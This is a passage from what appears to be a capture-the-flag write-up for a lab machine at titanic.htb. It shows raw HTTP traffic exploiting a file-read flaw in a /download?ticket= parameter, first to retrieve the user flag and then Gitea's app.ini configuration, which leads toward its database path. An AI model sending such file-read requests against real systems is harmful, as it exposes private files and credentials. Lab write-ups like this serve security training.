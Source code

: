
```c
HTTP/1.1 200 OK
Date: Sat, 15 Feb 2025 19:26:38 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="/home/developer/user.txt"
Content-Type: text/plain; charset=utf-8
Content-Length: 33
Last-Modified: Sat, 15 Feb 2025 19:01:14 GMT
Cache-Control: no-cache
ETag: "1739646074.8236134-33-1893075274"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

c2b0057846184c54c8faa539fb3487fc

```

![](images/2025-02-15_20-28_80_lfi_usertxt.png)

### Further Enumeration

We moved along and cloned the application from the `Gitea` repository to run it ourselves to see if there were any interesting files located in the directory of `Gitea`. And indeed we found the `app.ini` which contained some useful information about the `path` for the `sqlite3` database.

```c
GET /download?ticket=/home/developer/gitea/data/gitea/conf/app.ini HTTP/1.1
Host: titanic.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titanic.htb/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```
